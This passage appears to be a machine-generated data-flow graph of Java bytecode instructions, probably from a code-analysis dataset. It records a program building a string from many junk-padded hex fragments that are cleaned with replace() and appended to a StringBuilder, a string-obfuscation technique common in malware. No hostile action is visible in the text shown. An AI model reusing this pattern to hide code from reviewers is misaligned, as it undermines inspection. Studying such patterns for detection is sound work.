    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"BBFBBBA6BBBB75DBBBB\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"BBFBBBA6BBBB75DBBBB\"";
    "push \"BBFBBBA6BBBB75DBBBB\""->"push \"B\"";
    "push \"B\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"60DCC15CE\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"60DCC15CE\"";
    "push \"60DCC15CE\""->"push \"C\"";
    "push \"C\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Fcccc5A6ccc0c3\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Fcccc5A6ccc0c3\"";
    "push \"Fcccc5A6ccc0c3\""->"push \"c\"";
    "push \"c\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0::::0::::1249\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0::::0::::1249\"";
    "push \"0::::0::::1249\""->"push \":\"";
    "push \":\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"00>>>>0>>>A64>>>>\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"00>>>>0>>>A64>>>>\"";
    "push \"00>>>>0>>>A64>>>>\""->"push \">\"";
    "push \">\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"7374ttt5ttt3\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"7374ttt5ttt3\"";
    "push \"7374ttt5ttt3\""->"push \"t\"";
    "push \"t\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6ss1sss7sss669\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6ss1sss7sss669\"";
    "push \"6ss1sss7sss669\""->"push \"s\"";
    "push \"s\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"m6E67mmm73mmm\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"m6E67mmm73mmm\"";
    "push \"m6E67mmm73mmm\""->"push \"m\"";
    "push \"m\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"49;;;;;0;;;;0;06;;;\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"49;;;;;0;;;;0;06;;;\"";
    "push \"49;;;;;0;;;;0;06;;;\""->"push \";\"";
    "push \";\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"65ppp6Eppppp6pppp4\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"65ppp6Eppppp6pppp4\"";
    "push \"p\""
    "push \"65ppp6Eppppp6pppp4\""->"push \"p\"";
    "push \"p\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"44AAA61AAAAA7AAAAAAA9\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"44AAA61AAAAA7AAAAAAA9\"";
    "push \"44AAA61AAAAA7AAAAAAA9\""->"push \"A\"";
    "push \"A\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"55549555000C\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"55549555000C\"";
    "push \"5\""
    "push \"55549555000C\""->"push \"5\"";
    "push \"5\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"3333656333E633334333\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"3333656333E633334333\"";
    "push \"3333656333E633334333\""->"push \"3\"";
    "push \"3\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"KKK4KK4K6179\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"KKK4KK4K6179\"";
    "push \"KKK4KK4K6179\""->"push \"K\"";
    "push \"K\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"4Fvvvv6vv6v5v7\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"4Fvvvv6vv6v5v7\"";
    "push \"4Fvvvv6vv6v5v7\""->"push \"v\"";
    "push \"v\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"65656B\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"65656B\"";
    "push \"65656B\""->"push \"P\"";
    "push \"P\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"49pp0pppp0p0pppp7\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"49pp0pppp0p0pppp7\"";
    "push \"49pp0pppp0p0pppp7\""->"push \"p\"";
    "push \"p\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6CC56E64C\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6CC56E64C\"";
    "push \"6CC56E64C\""->"push \"C\"";
    "push \"C\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"4DLLL6FLLLL64L\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"4DLLL6FLLLL64L\"";
    "push \"4DLLL6FLLLL64L\""->"push \"L\"";
    "push \"L\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6g5ggg49gggg00\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6g5ggg49gggg00\"";
    "push \"g\""
    "push \"6g5ggg49gggg00\""->"push \"g\"";
    "push \"g\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"11086156E\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"11086156E\"";
    "push \"11086156E\""->"push \"1\"";
    "push \"1\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"HHH6H44D6F\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"HHH6H44D6F\"";
    "push \"H\""
    "push \"HHH6H44D6F\""->"push \"H\"";
    "push \"H\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6E74HHH68\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6E74HHH68\"";
    "push \"6E74HHH68\""->"push \"H\"";
    "push \"H\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"4AAAA90007\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"4AAAA90007\"";
    "push \"4AAAA90007\""->"push \"A\"";
    "push \"A\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6>56E6>>>>4\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6>56E6>>>>4\"";
    "push \"6>56E6>>>>4\""->"push \">\"";
    "push \">\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"zzz5469zz6Dzzz\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"zzz5469zz6Dzzz\"";
    "push \"zzz5469zz6Dzzz\""->"push \"z\"";
    "push \"z\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"65490GGGGGG0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"65490GGGGGG0\"";
    "push \"G\""
    "push \"65490GGGGGG0\""->"push \"G\"";
    "push \"G\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"OO0OB6OOOOOOOO5O6EOOO\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"OO0OB6OOOOOOOO5O6EOOO\"";
    "push \"OO0OB6OOOOOOOO5O6EOOO\""->"push \"O\"";
    "push \"O\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"645469\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"645469\"";
    "push \"645469\""->"push \"j\"";
    "push \"j\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6Dqqqqq654D\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6Dqqqqq654D\"";
    "push \"6Dqqqqq654D\""->"push \"q\"";
    "push \"q\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"aaa6F6aa46aaaaa5\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"aaa6F6aa46aaaaa5\"";
    "push \"aaa6F6aa46aaaaa5\""->"push \"a\"";
    "push \"a\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"49ll000lll9\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"49ll000lll9\"";
    "push \"49ll000lll9\""->"push \"l\"";
    "push \"l\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"700002000061700007\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"700002000061700007\"";
    "push \"0\""
    "push \"700002000061700007\""->"push \"0\"";
    "push \"0\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"YYYY4YYYF6666\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"YYYY4YYYF6666\"";
    "push \"YYYY4YYYF6666\""->"push \"Y\"";
    "push \"Y\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"73G6GG5G74\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"73G6GG5G74\"";
    "push \"73G6GG5G74\""->"push \"G\"";
    "push \"G\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"49@@0015\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"49@@0015\"";
    "push \"49@@0015\""->"push \"@\"";
    "push \"@\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"CC7CCC36C57CCC2\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"CC7CCC36C57CCC2\"";
    "push \"CC7CCC36C57CCC2\""->"push \"C\"";
    "push \"C\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"696II16C\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"696II16C\"";
    "push \"696II16C\""->"push \"I\"";
    "push \"I\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"5OOO66OOOO572OO\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"5OOO66OOOO572OO\"";
    "push \"5OOO66OOOO572OO\""->"push \"O\"";
    "push \"O\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"736zzz9zzzz6F\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"736zzz9zzzz6F\"";
    "push \"736zzz9zzzz6F\""->"push \"z\"";
    "push \"z\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"__6E___4____F6___E\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"__6E___4____F6___E\"";
    "push \"__6E___4____F6___E\""->"push \"_\"";
    "push \"_\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"53oooo7o472\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"53oooo7o472\"";
    "push \"53oooo7o472\""->"push \"o\"";
    "push \"o\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"65rr6rr16D\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"65rr6rr16D\"";
    "push \"65rr6rr16D\""->"push \"r\"";
    "push \"r\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"49GGGG0GGGG00GGG8GGGG\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"49GGGG0GGGG00GGG8GGGG\"";
    "push \"49GGGG0GGGG00GGG8GGGG\""->"push \"G\"";
    "push \"G\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"73U74UUU61\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"73U74UUU61\"";
    "push \"73U74UUU61\""->"push \"U\"";
    "push \"U\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"7u2u74uuu4u4\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"7u2u74uuu4u4\"";
    "push \"7u2u74uuu4u4\""->"push \"u\"";
    "push \"u\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"MMM6179MMMMMMMM4MMM9MMMM\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"MMM6179MMMMMMMM4MMM9MMMM\"";
    "push \"MMM6179MMMMMMMM4MMM9MMMM\""->"push \"M\"";
    "push \"M\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"00VV0E73\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"00VV0E73\"";
    "push \"00VV0E73\""->"push \"V\"";
    "push \"V\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"D7DDDDD4DDDDD6172\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"D7DDDDD4DDDDD6172\"";
    "push \"D7DDDDD4DDDDD6172\""->"push \"D\"";
    "push \"D\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"7XXXX4XXX4XXXXXX461\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"7XXXX4XXX4XXXXXX461\"";
    "push \"7XXXX4XXX4XXXXXX461\""->"push \"X\"";
    "push \"X\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"794Fm6mmmm6m\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"794Fm6mmmm6m\"";
    "push \"794Fm6mmmm6m\""->"push \"m\"";
    "push \"m\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"rrrr5rrr7rrrrr6rr5rrr65rr\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"rrrr5rrr7rrrrr6rr5rrr65rr\"";
    "push \"rrrr5rrr7rrrrr6rr5rrr65rr\""->"push \"r\"";
    "push \"r\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"mmm6mmmmmmmB49m0mm0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"mmm6mmmmmmmB49m0mm0\"";
    "push \"mmm6mmmmmmmB49m0mm0\""->"push \"m\"";
    "push \"m\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
